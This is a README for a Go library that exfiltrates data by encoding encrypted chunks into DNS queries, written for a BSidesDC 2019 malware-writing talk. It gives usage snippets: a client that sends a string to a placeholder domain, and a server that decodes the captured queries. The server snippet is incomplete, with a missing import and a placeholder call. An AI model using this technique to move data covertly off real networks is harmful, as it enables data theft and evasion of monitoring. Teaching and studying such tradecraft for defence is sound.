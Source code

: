# Exfil2DNS

Simple library to exfiltrate data using DNS queries.

Written for the _Hands-on Writing Malware in Go_ talk at BSidesDC 2019.

For legal use only.

## TODO

- [ ] Change "Client" and "Decryptor" to more accurate names/terms (?)
- [ ] Finish documentation (and make more consistent)
- [ ] Make code more concise (where possible)
- [ ] Make a seperate chunking function (?)
- [ ] Make Client and Decryptor threadsafe?
- [ ] More testing

## Usage

Encrypt and send data:

```go
import (
	"log"
	"github.com/CS-5/exfil2dns"
)
func main() {
	/* Target Name: cube, Domain: example.domain, Key: ThisIsAKey1234, Chunk Size: 23 */
	client, err := exfil2dns.NewClient("cube", "example.domain", "ThisIsAKey1234", 23)
	if err != nil {
		log.Fatal("Error creating client: " + err.Error())
	}
	/* Exfil "Here's a sneaky string" */
	err = client.Exfil([]byte("Here's a sneaky string"))
	if err != nil {
		log.Fatal("Error exfiling data: " + err.Error())
	}
}
```

Decrypt data:

```go
import (
    "log"
    "github.com/CS-5/exfil2dns"
)

func main() {
    server := exfil2dns.NewServer("ThisIsAKey1234")

    /* DNS Server */
    queryString := someDNS.server()

    out := server.Decode(queryString)

    fmt.Printf("Target: %v, Payload: %v", out[0], out[1])
}
```
